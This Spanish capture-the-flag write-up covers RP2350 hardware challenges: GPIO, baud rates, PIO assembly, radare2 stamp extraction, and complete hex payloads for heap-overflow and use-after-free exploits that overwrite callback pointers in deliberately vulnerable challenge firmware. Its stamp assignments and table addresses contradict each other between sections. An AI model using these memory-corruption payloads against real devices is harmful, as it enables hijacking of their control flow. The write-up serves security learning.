



# Final

---

---

# Long Short

Simplemente este reto nos basta con encontrar los pines de GPIO que se encuentran en la parte inferior, y debemos poner GPI2, GPI3, GPI4 y GPI5 a tierra, es decir GND. 



El reto nos sugiere hacerlo con unas llaves, pero casualmente, los 5 pines que tenemos que conectar entre sí, tienen la distancia exacta de un USB tipo A.

De esta manera, tras dejarlo 15 segundos obtenemos la flag del reto

---

# **In Order Crazy Baud Rates**

Para este reto, se nos está sugiriendo ir viendo distintas velocidades e ir apuntando las distintas partes de la flag.

De primeras se me ocurre iniciar el reto en la banda 9600. Con `picom` justo después de iniciar el reto debemos cerrar la ventana pero el reto seguirá iniciado. Esto lo conseuimos con Crtl-A + Ctrl+x. Luego volveremos a iniciar el reto en otra banda, por ejemplo la 9600. Si hemos acertado la banda, está nos devolverá la flag, su no deberemos pulsar el botón de reset y volver a empezar de cero.

Tras un poco de investigación vemos que las bauds más usadas son las siguientes:

| 1800 bauds |
| --- |
| 2400 bauds |
| 4800 bauds |
| 9600 bauds |
| 19200 bauds |
| 28800 bauds |
| 38400 bauds |
| 57600 bauds |
| 76800 bauds |
| 115200 bauds |

Para este reto, al final era más facil usar Putty, porque tras una ventana iniciada con nuestro reto, podemos modificar las frecuencias mientras el programa esté en ejecución.

Tras iniciar el challenge en la `9600`, vamos a ir cambiando de frecuencias poco a poco. El nombre del reto nos sugiere que están en orden, entonces vamos probando hasta que en la `19200` nos devuelve la primera parte de la flag. Seguimos probando en orden y vemos que no salta en ninguna, entonces después vuelvo a intentar y vemos que en la `9600` nos da la segunda parte de la flag. Intento tras intento, vemos que la tercera parte está en la banda  `38400` y luego en la `115200` y nos dará el resto de las flag. 

De esta manera uniendo cada parte de la flag obtenemos la flag final y completamos el reto al completo.



El principal problema de este reto era que cada vez que te equivocabas, tenías que pulsar el botón de reset en la placa y volver a empezar, así hasta conseguir los 4 fragmentos.

---

# PIO put led on

```
PIO0 State Machine 0 is pre-configured: clock = 10 kHz.
Side-set: NON-optional, 1 pin = GPIO 25 (LED). Bit 12 = side-set value. 4-bit delay (bits 11:8, max 15).
Side-set controls the LED: side-set=1 -> LED ON, side-set=0 -> LED OFF.
EVERY instruction drives the LED via side-set (non-optional).
SET pins: base = GPIO 20, 2 pins (GPIO 20 and GPIO 21). 'set pins, V' writes V to GPIO 20/21.

The LED and AUX pins must follow this EXACT pattern:
  1) LED ON  for ~3 seconds,  GPIO20=1 GPIO21=0
  2) LED OFF for ~8 seconds,  GPIO20=0 GPIO21=1
  3) LED ON  for ~10 seconds, GPIO20=1 GPIO21=1
  4) LED OFF (stay off),      GPIO20=0 GPIO21=0
```

Y hay que enviar 10 bytes de stamp seguidos de words de 16 bits hex con las instrucciones PIO.

## PIO

Antes de empezar con el reto tenemos que tener 3 cosas claras sobre PIO

**1. Cada instrucción son 16 bits con este formato:**

```
bits 15..13 : opcode (JMP, WAIT, IN, OUT, PUSH/PULL, MOV, IRQ, SET)
bit  12     : side-set (en este reto, 1 bit = estado del LED)
bits 11..8  : delay (ciclos extra que la instrucción ocupa, 0..15)
bits 7..5   : destino/condición
bits 4..0   : operando (registro de 5 bits → valores 0..31)
```

Como el side-set es **no opcional**, cada instrucción que escribo tiene que llevar el bit 12 puesto al estado del LED que quiero en esa fase.

**2. Al iniciar el reto nos dice que el reloj está a 10 kHz**

Es decir cada ciclo serán 100 µs

Traducido a los tiempos del patrón:

- Fase 1: ~3 s → ~30 000 ciclos
- Fase 2: ~8 s → ~80 000 ciclos
- Fase 3: ~10 s → ~100 000 ciclos

**3. PIO solo tiene X e Y como registros de trabajo, y los literales de `set` son de 5 bits (máx 31).**

Esto me jode porque un bucle simple de `set x, 31 / jmp x--, label [15]` como mucho da `32 * 16 = 512` ciclos. Anidando dos bucles (con Y externo y X interno) llego a algo del estilo `32 * 32 * 16 = 16 384` ciclos ≈ 1.6 s. Ni de broma llega a los 10 segundos que necesito en la fase 3.

### El truco: ISR como tercer contador

PIO no tiene pila ni un tercer registro de scratch, pero tiene ISR y OSR (los shift registers). Y `mov isr, y` / `mov y, isr` son instrucciones legales. O sea, puedo usar ISR como “guardería” de un contador extra:

| mov isr, y | guardo el contador de pases |
| --- | --- |
| set y, 31  | machaco y para usarlo en el bucle medio |
| ... | hago el bucle medio + interno |
| mov y, isr | recupero el contador de pases |
| jmp y--, ... | decremento y vuelvo atrás si queda |

```
mov isr, y    ; guardo el contador de pases
set y, 31     ; machaco y para usarlo en el bucle medio
...           ; hago el bucle medio + interno
mov y, isr    ; recupero el contador de pases
jmp y--, ...  ; decremento y vuelvo atrás si queda
```

Con 3 niveles anidados sí tengo margen: si cada pase tarda ~15 400 ciclos, con 6 pases me planto en 92 000 ciclos ≈ 9.2 s, suficiente para la fase más larga.

### Diseñando las fases

Para cada fase el esqueleto es el mismo:

| set pins, X  | side=LED | ajusta GPIO20/21 y el LED |
| --- | --- | --- |
| set y, N |  | pone el contador de pases (N pases)
 |
| mov isr, y | [15] | etiqueta "pass_loop" (lo saltaremos con jmp)
 |
| set y, 31 | [15] |  |
| set x, 31 | [15] | "outer" (recarga X) |
| jmp x--, (self) | [15 o menos] | bucle interno: 32 iteraciones
 |
| jmp y--, outer | [15] | bucle medio: 32 iteraciones |
| mov y, isr | [15] | recupera el contador de pases
 |
| jmp y--, pass_loop | [15] | cierre del bucle de pases |

Los tiempos se afinan tocando dos cosas: el **delay del jmp interno** (si quiero acortar un poco la fase) y el **número de pases** (contador inicial en Y antes del mov isr). Eché cuentas rápidas:

- Fase 1 (~3 s): 2 pases. Bajo el delay del jmp interno a 13 para que no se pase → sale ~3.08 s.
- Fase 2 (~8 s): 5 pases con todos los delays a 15 → ~8.74 s.
- Fase 3 (~10 s): 6 pases con todos los delays a 15 → ~10.48 s.
- Fase 4: `set pins, 0` con side=0 y un `jmp <self>` que se queda ahí para siempre.

### El programa entero

Encoding a mano de cada instrucción. Un ejemplo para que se vea el formato: `set y, 31 side=1 [15]`

```
111 (SET)   1 (side-set=1)   1111 (delay=15)   010 (Y)   11111 (31)
= 1111 1111 0101 1111 = 0xFF5F
```

Y así todas. El programa queda en 29 instrucciones (entran en las 32 del memory de la state machine):

| Addr | Pseudo | Word | Comentario |
| --- | --- | --- | --- |
| 00 | set pins, 1 side 1 | F001 | fase 1 inicia, LED ON, GPIO=01 |
| 01 | set y, 1 side 1 | F041 | 2 pases (y=1, termina en y=0) |
| 02 | mov isr, y side 1 [15] | BFC2 | ← pass_loop |
| 03 | set y, 31 side 1 [15] | FF5F |  |
| 04 | set x, 31 side 1 [15] | FF3F | ← outer |
| 05 | jmp x--, 5 side 1 [13] | 1D45 | bucle interno (delay 13 para ajustar) |
| 06 | jmp y--, 4 side 1 [15] | 1F84 | bucle medio |
| 07 | mov y, isr side 1 [15] | BF46 |  |
| 08 | jmp y--, 2 side 1 [15] | 1F82 | cierre de pases fase 1 |
| 09 | set pins, 2 side 0 | E002 | fase 2 inicia, LED OFF, GPIO=10 |
| 10 | set y, 4 side 0 | E044 | 5 pases |
| 11 | mov isr, y side 0 [15] | AFC2 |  |
| 12 | set y, 31 side 0 [15] | EF5F |  |
| 13 | set x, 31 side 0 [15] | EF3F |  |
| 14 | jmp x--, 14 side 0 [15] | 0F4E |  |
| 15 | jmp y--, 13 side 0 [15] | 0F8D |  |
| 16 | mov y, isr side 0 [15] | AF46 |  |
| 17 | jmp y--, 11 side 0 [15] | 0F8B |  |
| 18 | set pins, 3 side 1 | F003 | fase 3 inicia, LED ON, GPIO=11 |
| 19 | set y, 5 side 1 | F045 | 6 pases |
| 20 | mov isr, y side 1 [15] | BFC2 |  |
| 21 | set y, 31 side 1 [15] | FF5F |  |
| 22 | set x, 31 side 1 [15] | FF3F |  |
| 23 | jmp x--, 23 side 1 [15] | 1F57 |  |
| 24 | jmp y--, 22 side 1 [15] | 1F96 |  |
| 25 | mov y, isr side 1 [15] | BF46 |  |
| 26 | jmp y--, 20 side 1 [15] | 1F94 |  |
| 27 | set pins, 0 side 0 | E000 | fase 4, LED OFF, GPIO=00 |
| 28 | jmp 28 side 0 | 001C | bucle infinito final |

Ahora tenemos que buscar los stamps. Si metemos un stamp aleatorio, el propio reto nos dice que busquemos la forma de hallar los stamps. Entonces vamos a tener que descargarnos el firmware de recuperacion y analizarlo con radare.

## Extracción de STAMPS

### 1. Abrir con radare2 apuntando a RISC-V y la base correcta

El RP2350 es dual-core (ARM Cortex-M33 + RISC-V Hazard3). Abro el bin con:

- `a riscv` — arquitectura
- `b 32` — ancho de 32 bits
- `m 0x10000000` — mapeo del contenido del bin a la dirección de flash real


### 3. Sanity check: confirmar que es RISC-V y no ARM Thumb

En un binario de ARM Thumb, el retorno típico es `bx lr` (`0x4770`, bytes `70 47`). En RISC-V comprimido es `c.ret` (`0x8082`, bytes `82 80`). Cuento apariciones de cada uno:


671 apariciones de `c.ret` vs 1 de `bx lr`. Confirmado: RISC-V.

*[captura: dos ventanas con los conteos de ambas búsquedas]*

### 4. Buscar las strings del chequeo de stamps

El firmware tiene que imprimir algo cuando el stamp es incorrecto. `izz` saca strings de todo el binario, y con `~` filtro por "STAMP":

```bash
[0x10000000]> izz~STAMP
1156 0x000352e4 0x000352e4 155  156          ascii   STAMP CHECK FAILED! The first %d bytes are not the correct challenge stamp.\r\nYou must reverse engineer the firmware to find the stamp for this challenge.\r\n
1180 0x00035de4 0x00035de4 167  168          ascii   STAMP CHECK FAILED! The first %d bytes of user_buf are not the correct challenge stamp.\r\nYou must reverse engineer the firmware to find the stamp for this challenge.\r\n
1228 0x00037650 0x00037650 166  167          ascii   STAMP CHECK FAILED! The first %d bytes of new_buf are not the correct challenge stamp.\r\nYou must reverse engineer the firmware to find the stamp for this challenge.\r\n
```

Tres ocurrencias, una por reto que lleva stamp:

- `0x352e4` → string genérica (se usa desde el reto del PIO y similares)
- `0x35de4` → específica de buffer de usuario (heap overflows)
- `0x37650` → específica de `new_buf` (use-after-free)

**Pequeño detalle importante**: `izz` me reporta `paddr == vaddr` (ambos a `0x00035xxx`). Esto es porque r2 arrastra el offset del archivo sin aplicar el mapeo `-m` al metadato de strings. La dirección **real en memoria** es `paddr + 0x10000000 = 0x100352e4`. Lo compruebo:

```bash
[0x10000000]> s 0x000352e4
[0x000352e4]> px 32
- offset -  E4E5 E6E7 E8E9 EAEB ECED EEEF F0F1 F2F3  456789ABCDEF0123
0x000352e4  ffff ffff ffff ffff ffff ffff ffff ffff  ................
0x000352f4  ffff ffff ffff ffff ffff ffff ffff ffff  ................
[0x000352e4]> s 0x100352e4
[0x100352e4]> px 48
- offset -  E4E5 E6E7 E8E9 EAEB ECED EEEF F0F1 F2F3  456789ABCDEF0123
0x100352e4  5354 414d 5020 4348 4543 4b20 4641 494c  STAMP CHECK FAIL
0x100352f4  4544 2120 5468 6520 6669 7273 7420 2564  ED! The first %d
0x10035304  2062 7974 6573 2061 7265 206e 6f74 2074   bytes are not t
```

Ahí sí está la string. Siempre tengo que **sumar `0x10000000`** a las direcciones que da `izz`.

*[captura: las dos seeks mostrando 0xFF en la primera y la string legible en la segunda]*

### 5. Intentar el camino "clásico": xrefs al string

El plan de libro sería: `aaa` para que r2 resuelva xrefs, y luego `axt` para ver qué código carga la dirección de la string. Justo antes de cargar esa string suele estar el `memcmp(input, stamp_table, 10)`, y una de las dos operands es el puntero a la tabla.

```bash
[[0x100352e4]> aaa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze imports (af@@@i)
WARN: select the calling convention with `e anal.cc=?`
INFO: Analyze symbols (af@@@s)
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: find and analyze function preludes (aap)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Analyzing methods (af @@ method.*)
INFO: Emulate functions to find computed references (aaef)
INFO: Recovering local variables (afva@@@F)
INFO: Type matching analysis for all functions (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Use -AA or aaaa to perform additional experimental analysis
INFO: Finding xrefs in noncode sections (e anal.in=io.maps.x; aav)
[0x100352e4]> axt @ 0x100352e4
[0x100352e4]> axt @ 0x10035de4
[0x100352e4]> axt @ 0x10037650
[0x100352e4]>
```

`axt` no devuelve nada. Esto es porque RISC-V carga direcciones en dos fases con `auipc + addi` (PC-relativo), o mete casi todo en la sección global vía `gp` (global pointer). R2 **no resuelve bien** esa pareja en el análisis por defecto, así que los `xrefs` PC-relativos se pierden. Si miro el desensamblado cerca del arranque lo veo claro:


Así que toca otro plan.

### 6. Cambio de estrategia: usar landmarks en rodata

Si no puedo tirar del código, tiro de los datos. Los stamps son 10 bytes aparentemente aleatorios + 2 de padding, agrupados en tabla. Tienen que vivir en `.rodata` cerca de otras constantes. ¿Qué constantes cerca puedo encontrar? **La fecha de compilación** — los macros `__DATE__` y `__TIME__` de C meten strings predecibles tipo `"Apr  6 2026"` y `"02:35:13"`.

```bash
[0x10000100]> izz~Apr
990  0x0003203c 0x0003203c 11   12           ascii   Apr  6 2026
1079 0x000338e0 0x000338e0 31   32           ascii   Compiled: Apr  6 2026 02:35:13\r
1397 0x0003927c 0x0003927c 11   12           ascii   Apr  6 2026
[0x10000100]>
```

La primera, en `paddr 0x3203c`, está aislada y al principio de su zona de rodata (no forma parte de otra frase como "Compiled: Apr..."). Vaddr real: `0x1003203c`.

Las strings ASCII se almacenan en bloque en `rodata`, así que **justo antes** de esta fecha deberían estar las constantes no-texto — candidatas perfectas para los stamps.

### 7. Inspección del área previa al landmark

Salto un poco antes y vuelco 96 bytes para ver la transición:



Ahí está. Tres señales inequívocas:

1. **Zona previa de zeros** (`0x10031fe0`–`0x10031fff`) — padding de alineamiento, indica fin de la sección anterior.
2. **Bloque de 48 bytes de alta entropía** en `0x10032000`–`0x10032030` con un patrón claro: `10 bytes random + 00 00` repetido 4 veces.
3. **Inmediatamente detrás** arrancan strings: `"02:35:13"` (de `__TIME__`) y luego `"Apr "` (de `__DATE__`).

Esa zona entre el padding y las strings es **la tabla de stamps**.

En formato limpio tenemos los siguientes stamps

| Índice | Dirección | Stamp (10 bytes) |
| --- | --- | --- |
| stamp[0] | `0x10032000` | `0E B2 C2 CC 6B 40 AA FF E4 5F` |
| stamp[1] | `0x1003200C` | `CA E6 51 2D 80 2E 82 EA 08 59` |
| stamp[2] | `0x10032018` | `5A F7 E7 20 10 E3 91 F2 00 1D` |
| stamp[3] | `0x10032024` | `15 D5 97 3E DD 1E 2A 74 1A CE` |

Ahora bien, podríamos intentar analizar cuando se está comprobando cada stamp pero como `xref` no nos sirva, vamos a ir probando en cada uno de los retos. Si probamos uno y este nos falla, probaremos con el siguiente. 

| Reto (id) | Nombre | Stamp utilizado |
| --- | --- | --- |
| `p` | The dumb PSRAM heap overflow | `stamp[0]` |
| `o` | The not so dumb heap overflow | `stamp[1]` |
| `u` | PSRAM heap use-after-free | `stamp[2]` |
| `l` | PIO put LED on | `stamp[3]` |

## Payload Final

```
15 D5 97 3E DD 1E 2A 74 1A CE F001 F041 BFC2 FF5F FF3F 1D45 1F84 BF46 1F82 E002 E044 AFC2 EF5F EF3F 0F4E 0F8D AF46 0F8B F003 F045 BFC2 FF5F FF3F 1F57 1F96 BF46 1F94 E000 001C
```

---

# The Dumb PSRAM Heap Overflow

```
heap_solved() is at: 0x20001680
heap_not_solved() is at: 0x200016BA

user_buf allocated at:       0x11000AFC (size: 64 bytes)
target struct allocated at:  0x11000B40 (sizeof: 20 bytes)
target->callback is at:      0x11000B50 (currently: 0x200016BA)

Distance from user_buf[0] to target->callback: 84 bytes
```

O sea, te pide bytes en hex y te deja escribir sin comprobar límites en `user_buf`. Justo al lado hay un struct con un puntero a función al final. La idea es desbordar el buffer, pisar el puntero, y hacer que apunte a `heap_solved()` en vez de a `heap_not_solved()`.

La restricción extra: los 10 primeros bytes tienen que ser el stamp correcto del reto, que hay que sacar haciendo reversing al firmware. (Resuelto ya)

## Entendiendo el layout

Lo primero que hice fue sacar cuentas con las direcciones que te da el propio firmware:

- `user_buf` empieza en `0x11000AFC` y ocupa 64 bytes → termina en `0x11000B3C`
- El struct `target` arranca en `0x11000B40`
- Entre medias quedan 4 bytes que son la cabecera del chunk de TLSF
- Dentro del struct, el callback está en el offset 16 (`0x11000B50`)

Sumando: 64 + 4 + 16 = 84 bytes hasta el puntero. Coincide con lo que dice el reto.

TLSF mete una cabecera pequeña delante de cada chunk con el tamaño y un par de flags (`FREE`, `PREV_FREE`). Son esos 4 bytes que quedan “en medio”. Pisarlos no pasa nada porque entre que yo escribo y el firmware llama al callback no se hace ningún `malloc` ni `free`, así que el allocator ni mira esa cabecera corrupta. Si hubiera operaciones de heap posteriores sí sería peligroso porque al consolidar chunks libres se podría conseguir una escritura arbitraria.

## Sacando el stamp

El firmware tiene una tabla con 4 stamps dentro de `.rodata`. La pillé abriendo el UF2, convirtiéndolo a `.bin`, y buscando la zona con entropía alta que queda cerca de las strings de `"STAMP CHECK FAILED"` y `"Stamp check PASSED!"`.

La tabla está en `flash 0x10031F00` (offset `0x32000` del bin):

```
stamp[0] = 0E B2 C2 CC 6B 40 AA FF E4 5F
stamp[1] = CA E6 51 2D 80 2E 82 EA 08 59
stamp[2] = 5A F7 E7 20 10 E3 91 F2 00 1D
stamp[3] = 15 D5 97 3E DD 1E 2A 74 1A CE
```

Cada entrada ocupa 12 bytes (10 de stamp + 2 de padding). No conseguí sacar los xrefs directos porque el código es RISC-V y usa direccionamiento `auipc+addi` o relativo a `gp`, que ni radare2 con `aaaa` me los pillaba bien. Al final los probé empíricamente y para este reto el que funcionaba era el **stamp[0]**: `0E B2 C2 CC 6B 40 AA FF E4 5F`.

Un detalle: el binario es **RISC-V RV32**, no ARM Thumb. El RP2350 tiene los dos cores (Cortex-M33 y Hazard3) pero este firmware corre en el Hazard3. Lo confirmé contando patrones de retorno: `c.ret = 0x8082` salía muchísimas veces, `bx lr = 0x4770` cero. Esto importa a la hora de desensamblar, hay que lanzar r2 con `-a riscv -b 32`.

## Montando el payload

Total: 88 bytes.

```
[10]   stamp ............. 0E B2 C2 CC 6B 40 AA FF E4 5F
[54]   relleno (0x41) ... completa los 64 bytes de user_buf
[ 4]   cabecera TLSF .... la pisamos a lo bruto
[16]   campos del struct  los otros campos antes del callback
[ 4]   puntero final .... 0x20001680 en little-endian = 80 16 00 20
```

Resultado, todo en una línea como se mete en el prompt:

```
0E B2 C2 CC 6B 40 AA FF E4 5F 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 42 42 42 42 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 80 16 00 20
```

Puse 0x41 para el buffer de usuario, 0x42 para la cabecera TLSF y 0x43 para los campos del struct, así si algo fallaba podía diferenciar en un volcado qué zona estaba pisándose mal. Al final no hizo falta pero mejor eso que tener todo con `AA`.

# The PSRAM HEAP Use-After-Free

Otro reto de RISC-V exploiting en la RP2350. Mismo escenario que el heap overflow pero esta vez no hay que desbordar nada: el bug es un Use-After-Free sobre la PSRAM con allocator TLSF.

## Qué pinta tiene el reto

Al entrar el firmware te describe paso a paso lo que hace:

```
uaf_solved() is at:     0x20001ECC
uaf_not_solved() is at: 0x20001F04

Step 1: Allocated victim struct at 0x11000AFC (sizeof: 20 bytes)
  victim->tag      at offset 0  (16 bytes)
  victim->callback at offset 16 (4 bytes) = 0x20001F04

Step 2: Freeing victim struct... (pointer 0x11000AFC is now dangling!)

Step 3: Allocating new buffer of SAME size (20 bytes)...
  New buffer allocated at: 0x11000AFC
  *** SAME address as freed victim! The allocator reused the memory. ***
```

O sea: reserva un struct, lo libera pero se guarda el puntero antiguo (ya *dangling*), pide otro bloque del mismo tamaño (20 bytes), TLSF lo coloca exactamente en el hueco que acaba de liberar, y te deja escribir en ese nuevo bloque. Luego invoca `victim->callback()` usando el puntero viejo.

Como `victim` y `new_buf` son físicamente el mismo trozo de memoria, lo que yo escribo en `new_buf` se reinterpreta como los campos de `victim`. El puntero está en el offset 16, así que controlo a qué función salta el callback.

## Por qué cae siempre en el mismo slot

Esto es por la política LIFO de TLSF. Cuando haces `free`, el chunk liberado se mete en la cabeza de la free-list del tamaño correspondiente. Si justo después pides un `malloc` del mismo tamaño, el allocator te da ese mismo chunk. Es el comportamiento que buscarías a mano para hacer heap grooming, aquí te lo sirven directamente.

Pasa lo mismo con dlmalloc (fastbins), glibc (tcache), etc. No es algo exclusivo de TLSF.

## El stamp

Misma tabla que ya saqué para el reto `p`, en `flash 0x10031F00`. Probando empíricamente, para el UAF funciona el **stamp[1]**: `CA E6 51 2D 80 2E 82 EA 08 59`.

## Montando el payload

Aquí sólo hay 20 bytes, que es el tamaño del struct reutilizado.

```
[10]  stamp ............. CA E6 51 2D 80 2E 82 EA 08 59
[ 6]  relleno (0x41) ... completa los 16 bytes del campo tag
[ 4]  puntero final .... 0x20001ECC en little-endian = CC 1E 00 20
```

En una sola línea:

```
5A F7 E7 20 10 E3 91 F2 00 1D 41 41 41 41 41 41 CC 1E 00 20
```

## El resultado

Metido el payload, STAMP CHECK PASSED, `victim->callback` pasó a apuntar a `uaf_solved()`, se invocó el callback a través del puntero dangling, y salió la flag.

## Qué me llevo

Lo importante de este reto es que no hay overflow ni corrupción de metadatos, el bug es puramente lógico: el programa sigue usando un puntero que ya había liberado. Aunque el allocator esté perfectamente sano, el atacante puede inyectar datos en la vida nueva del bloque y el programa los lee como si fuera la vida vieja.

Mitigaciones típicas que habrían parado esto:

- Poner `victim = NULL` justo después del `free`, así cualquier uso posterior cae en nullpointer y se detecta.
- Smart pointers con contador de referencias.
- Allocators con delayed free o guard pages, pero en MCU casi nadie se lo puede permitir por el coste en RAM.

Otro detalle: una vez controlas el slot, no estás limitado a saltar a `uaf_solved()`. Cualquier función del binario con una firma compatible es candidata. Sin CFI ni ninguna protección, encadenar gadgets tipo ROP/JOP desde aquí sería el siguiente paso en un escenario real.

Y como conclusión general de los dos retos de heap: tener punteros a función en memoria escribible es mala idea. En MCU con flash de sólo lectura lo correcto es mantener las tablas de callbacks allí, no copiarlas a RAM/PSRAM donde cualquier corrupción se convierte en control de flujo.

---

# The Not So Dumb PSRAM Heap Overflow

Encima aquí el reto ya no te regala las distancias, las tienes que calcular tú desde las direcciones.

## Qué pinta tiene el reto

Al seleccionar la opción `o`:

```
=== The Not So Dumb PSRAM Heap Overflow ===

heap2_solved() is at: 0x20001A4E
heap2_not_solved() is at: 0x20001A86

user_buf allocated at:   0x11000AFC (size: 32 bytes)
guard struct at:         0x11000B20 (sizeof: 16 bytes, magic at offset 0)
target struct at:        0x11000B34 (sizeof: 16 bytes, callback at offset 12)

Guard magic must be: 0x69CAFE69 (little-endian: 69 FE CA 69)
Calculate your offsets from the addresses above. No distances are given!
```

Tres bloques pedidos al allocator TLSF en este orden:

1. `user_buf` (32 bytes) — donde yo escribo sin límite
2. `guard struct` (16 bytes) — con un magic `0x69CAFE69` en su offset 0
3. `target struct` (16 bytes) — con el callback en su offset 12

El firmware, antes de llamar a `target->callback()`, verifica que `guard->magic == 0x69CAFE69`. Si lo rompo al atravesarlo, falla. Objetivo: desbordar hasta llegar al callback en el target, pero sin tocar el magic.

## Calculando distancias

El reto te avisa: “No distances are given!”. Toca hacer las cuentas.

**user_buf[0] → guard[0]:**

```
0x11000B20 - 0x11000AFC = 0x24 = 36 bytes
```

Coherente con: 32 bytes del `user_buf` + 4 bytes de cabecera TLSF del siguiente chunk = 36.

**user_buf[0] → target[0]:**

```
0x11000B34 - 0x11000AFC = 0x38 = 56 bytes
```

Coherente con: 36 + 16 (guard entero) + 4 (cabecera TLSF del target) = 56.

**user_buf[0] → target->callback:**

```
56 + 12 (offset del callback dentro del target) = 68 bytes
```

Total del payload: `68 + 4 = 72 bytes`.

## Montando el payload

Pongo bytes distintos en cada zona para que, si algo falla, pueda mirar un dump y saber qué zona está mal:

```
offset     bytes  contenido                    qué es
---------  -----  ---------------------------  ---------------------------------
[ 0..  9]  10     stamp                        CA E6 51 2D 80 2E 82 EA 08 59
[10.. 31]  22     0x41 (A)                     relleno del user_buf (32 B totales)
[32.. 35]   4     0x42 (B)                     cabecera TLSF del guard, la piso
[36.. 39]   4     69 FE CA 69                  *** MAGIC, hay que preservarlo ***
[40.. 51]  12     0x43 (C)                     resto del guard (no se verifica)
[52.. 55]   4     0x44 (D)                     cabecera TLSF del target, la piso
[56.. 67]  12     0x45 (E)                     campos del target antes del callback
[68.. 71]   4     4E 1A 00 20                  *** callback = 0x20001A4E (LE) ***
```

Comprobación: `10 + 22 + 4 + 4 + 12 + 4 + 12 + 4 = 72` ✓

Las dos cabeceras TLSF (los bloques de 4 bytes con `B` y `D`) en condiciones normales te traerían problemas — contienen tamaño y flags de free-list — pero como el firmware no llama a `malloc` ni `free` después de mi escritura, nunca se leen. Podría dejarlos a cero y daría igual.

El magic `0x69CAFE69` en little-endian es `69 FE CA 69` y va EXACTO en los bytes 36..39 del payload. Un byte desalineado y la verificación casca.

## Payload final

En una sola línea tal cual se mete en el prompt:

```
CA E6 51 2D 80 2E 82 EA 08 59 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 42 42 42 42 69 FE CA 69 43 43 43 43 43 43 43 43 43 43 43 43 44 44 44 44 45 45 45 45 45 45 45 45 45 45 45 45 4E 1A 00 20
```

El stamp usado aquí es el **stamp[1]** de la tabla que saqué del firmware en `flash 0x10031F00`: `CA E6 51 2D 80 2E 82 EA 08 59`.